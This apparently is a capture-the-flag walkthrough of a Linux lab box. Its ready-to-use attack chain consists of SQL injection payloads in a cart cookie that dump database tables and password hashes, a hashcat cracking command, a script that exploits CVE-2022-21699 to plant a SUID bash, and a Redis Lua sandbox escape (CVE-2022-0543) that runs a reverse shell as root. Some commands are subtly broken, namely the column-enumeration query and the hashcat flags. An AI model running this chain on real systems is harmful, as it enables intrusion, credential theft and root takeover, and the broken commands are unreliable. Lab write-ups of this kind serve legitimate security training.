 # Shared
### Medium linux box

##### Begin with an nmap scan:
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FvunymQaGuIELhAVfpFNU%2Fnmapscan.jpg?alt=media&token=36d6168c-845f-4150-be68-ecfc1a51dd68 "nmap results")

##### Access port 80 and navigate to the checkout page. Observe a URL-encoded cookie called `custom_cart=`. Decode the cookie and take note of its format: `<Item>:<Quantity>`
The cookie turned out to be vulnerable to SQL injection (SQLi). I found Portswigger's SQLi courses particularly helpful. Don't forget to URL encode the payload.
##### The cookie ended up being vulnerable to SQLi. Portswigger's sqli courses helped a lot here. URL encode the payload.

#### `' UNION SELECT 1 -- -` No values
#### `' UNION SELECT 1,2 -- -` No values
#### `' UNION SELECT 1,2,3 -- -` Values are reflected!
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiMA8il58YnoiSfSBNhwv%2FBURPCOOKIESQL.jpg?alt=media&token=ca2f7673-855a-4e73-9e13-626d989795d6)

### SQLi payloads:
##### Determine the current database:
#### `' UNION SELECT 1,database(),3 -- -`
##### Retrieve tables in the checkout database:
#### `'UNION SELECT 1,group_concat(table_name),3 from information_schema.tables WHERE table_schema='checkout' -- -`
##### Enumerate columns in the user table from the checkout database:
#### `' UNION SELECT 1,group_concat(column_name),3 from information_schema.tables WHERE table_schema='user' -- -`
##### Obtain values from the user table:
#### `' UNION SELECT 1,group_concat(id, ':', password),3 from checkout.user -- -`

##### Eventually, a hash is obtained that can be cracked using hashcat.
#### `hashcat -a -0 -m -0 <hash> <wordlist>`

##### ssh into the james_mason account with the cracked password

### Privilege Escalation
##### Transfer pspy64 and linpeas to the machine to observe running processes and identify sensitive files.
##### Discover ipython and an intriguing file, `/opt/scripts_review`. It exposes a cron job executed every minute by `dan_smith`.
```bash
/bin/sh -c
/usr/bin/pkill ipython;
cd opt/scripts review/ && /usr/local/bin/ipython
```

##### Further investigation reveals CVE-2022-21699, an "Arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another."
##### 1. Based on the cron job, ipython is executed at the `/opt/scripts_review` directory where we have write access.
##### 2. We need to create `/opt/scripts_review/profile_default` and `opt/scripts_review/profile_default/startup`.
##### 3. Generate a Python script to set the SUID bit of `dan_smith` to `/bin/bash`, allowing us to escalate privileges at `/opt/scripts_review/profile_default/startup`.

   
#### Create a script that creates a directory and another Python script that executes `script.sh`
```bash
james_mason@shared:/tmp$ cat script.sh
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import os; os.system("cp /bin/bash /tmp/danbash; chmod u+s /tmp/danbash")' > /opt/scripts_review/profile_default/startup/foo.py
james_mason@shared: /tmp$ chmod +x script.sh
james_mason@shared: /tmp$ ./script.sh
```
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiHCOT3FpQ65fr8Iq6a5t%2Fimage.png?alt=media&token=188fb7a8-1648-49d5-bfdd-b4b9e7dc80cb "script.sh")

##### Continuously run `script.sh` because there is a root cron job that deletes everything in `scripts_review`. Wait for the cron job to execute and create `danbash`. Then execute `danbash`.

```bash
james_mason@shared: /tmp$ ./danbash -p
```
##### From there you can copy the ssh key for `dan_smith` and ssh into the account for a better shell
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FRENhkyRf5bpOe4mSigPK%2Fimage.png?alt=media&token=d22f0e92-ee4f-48ae-bfa5-dd01ac9eb785 "id_rsa")

### Redis Lua Sandbox Escape and RCE to Obtain Root
##### Upload and execute linpeas, which reveals a readable file at `/usr/local/bin/redis_connector_dev`.
It is an ELF file that, when executed, connects to `redis-cli` using a password and then runs an `INFO` command.
Transfer `redis_connector_dev` to your machine, run a `netcat` listener, and you should obtain a password.
Refer to the helpful guide below for the exploit:

##### Helpful guide to the exploit below
[redis exploit](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md)

##### Due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scripts could escape the Lua sandbox and execute arbitrary code on the host.
##### Authenticate and connect to `redis-cli`. Use the command `AUTH <password>` and execute the command again. Write a reverse shell to be run from the server.
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2F0cOyfwWEIdhYqzkPVu3f%2Fimage.png?alt=media&token=203448cb-a4c6-48a0-a8e9-02ee9e3f0a6c "python reverse shell")

##### Start a netcat listener and execute the reverse shell to obtain a root shell.
```bash
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("python3 /home/dan_smith/shell.py", "r"); local res = f:read("*a"); f:close(); return res' 0 
```





